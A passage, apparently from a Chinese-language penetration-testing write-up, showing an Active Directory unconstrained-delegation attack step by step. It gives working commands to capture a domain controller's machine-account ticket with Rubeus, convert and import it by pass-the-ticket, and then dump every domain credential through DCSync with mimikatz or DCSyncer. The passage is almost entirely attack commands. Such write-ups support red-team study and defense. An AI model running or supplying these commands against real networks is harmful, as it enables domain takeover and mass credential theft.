 非约束委派机器上 Rubeus 成功捕获到 DC 机器用户 2012dc$ 的 tgt 票据：

```powershell
.\Rubeus.exe monitor /interval:1 /filteruser:2012dc$
```

![](/assets/images/move/2021-01-20-17-18-37.png)

转换 Base64 TGT 为 kirbi 票据文件，并通过 Rubeus 导入：

```powershell
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))
.\Rubeus.exe ptt /ticket:ticket.kirbi
```

进而可以 mimikatz / [DCSyncer](https://github.com/notsoshant/DCSyncer) 来 DCSync：

```
mimikatz "lsadump::dcsync /domain:ins.z /all /csv" "exit"
DCSyncer-x64.exe
```
